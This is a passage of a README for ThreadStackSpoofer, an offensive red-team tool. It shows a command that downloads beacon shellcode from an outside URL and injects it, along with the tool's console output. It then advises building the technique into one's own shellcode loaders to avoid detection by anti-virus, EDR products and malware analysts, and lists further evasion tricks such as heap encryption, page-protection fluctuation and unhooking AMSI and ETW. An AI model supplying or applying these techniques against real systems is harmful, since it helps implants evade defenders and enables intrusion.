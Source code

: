 ## Example run

Use case:

```
C:\> ThreadStackSpoofer.exe <shellcode_url> <spoof>
```

Where:

- `<shellcode_url>` is a HTTP/HTTPS URL to the shellcode file
- `<spoof>` when `1` or `true` will enable thread stack spoofing and anything else disables it.

Example run that spoofs beacon's thread call stack:

```
PS D:\dev2\ThreadStackSpoofer> .\x64\Release\ThreadStackSpoofer.exe http://192.168.1.100:8080/beacon64.bin 1
[.] Downloading shellcode from URL...
[.] Hooking kernel32!Sleep...
[.] Injecting shellcode...
[+] Shellcode is now running.
[>] Original return address: 0x1926747bd51. Finishing call stack...

===> MySleep(5000)

[<] Restoring original return address...
[>] Original return address: 0x1926747bd51. Finishing call stack...

===> MySleep(5000)

[<] Restoring original return address...
[>] Original return address: 0x1926747bd51. Finishing call stack...
```

---

## How do I use it?

Look at the code and its implementation, understand the concept and re-implement the concept within your own Shellcode Loaders that you utilise to deliver your Red Team engagements.
This is an yet another technique for advanced in-memory evasion that increases your Teams' chances for not getting caught by Anti-Viruses, EDRs and Malware Analysts taking look at your implants.

While developing your advanced shellcode loader, you might also want to implement:

- **Process Heap Encryption** - take an inspiration from this blog post: [Hook Heaps and Live Free](https://www.arashparsa.com/hook-heaps-and-live-free/) - which can let you evade Beacon configuration extractors like [`BeaconEye`](https://github.com/CCob/BeaconEye)
- **Change your Beacon's memory pages protection to `RW` (from `RX/RWX`) and encrypt their contents** - using [Shellcode Fluctuation](https://github.com/mgeeky/ShellcodeFluctuation) technique - right before sleeping (that could evade scanners such as [`Moneta`](https://github.com/forrest-orr/moneta) or [`pe-sieve`](https://github.com/hasherezade/pe-sieve))
- **Clear out any leftovers from Reflective Loader** to avoid in-memory signatured detections
- **Unhook everything you might have hooked** (such as AMSI, ETW, WLDP) before sleeping and then re-hook afterwards.

---